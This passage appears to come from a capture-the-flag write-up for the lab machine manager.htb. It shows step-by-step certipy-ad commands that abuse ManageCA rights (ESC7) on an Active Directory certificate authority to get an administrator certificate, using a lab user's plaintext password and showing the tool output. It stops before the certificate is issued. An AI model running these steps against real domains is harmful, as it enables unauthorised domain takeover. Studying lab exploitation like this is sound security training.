The report indicates that the user Raven possesses hazardous permissions, particularly having `ManageCA` rights over the Certification Authority. 

This implies that by leveraging the ESC7 scenario, we could potentially elevate our privileges to Domain Admin while operating as user Raven. 

A detailed explaination about the exploitation process for the ESC7 scenario can be found [here](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#vulnerable-certificate-authority-access-control-esc7).

## Exploitation

To exploit this, we'll need to first add Raven as an "officer", so that we can manage certificates and issue them manually.

```sh
certipy-ad ca -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip
10.10.11.236 -ca manager-dc01-ca -add-officer raven -debug
```

Now that we are officer, we can issue and manage certificates. The `SubCA` template can be enabled on the CA with the `-enable-template` flag.

```sh
certipy-ad ca -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip
10.10.11.236 -ca manager-dc01-ca -enable-template subca
```

The enabled certificate templates can be listed using the `-list-templates` flag.
```sh
certipy-ad ca -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip
10.10.11.236 -ca manager-dc01-ca -list-templates
```

The prerequisites for the attack are now fulfilled. We have Manage Certificates permission,granted through ManageCA , and have ensured that the SubCA template is enabled.

Now let us request a certificate based on the SubCA template. This request will be denied, but we will obtain a request ID and a private key, which we save to a file.

```sh
certipy-ad req -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip
10.10.11.236 -ca manager-dc01-ca -template SubCA -upn administrator@manager.htb

Certipy v4.7.0 - by Oliver Lyak (ly4k)
[*] Requesting certificate via RPC
[-] Got error while trying to request certificate: code: 0x80094012 -
CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not
allow the current user to enroll for this type of certificate.
[*] Request ID is 13
Would you like to save the private key? (y/N) y
[*] Saved private key to 13.key
[-] Failed to request certificate
```

We note that the certificate request ID is 13. Let us now use our obtained permissions to manually issue the failed certificate with the ca command and the -issue-request `<request ID>` parameter.
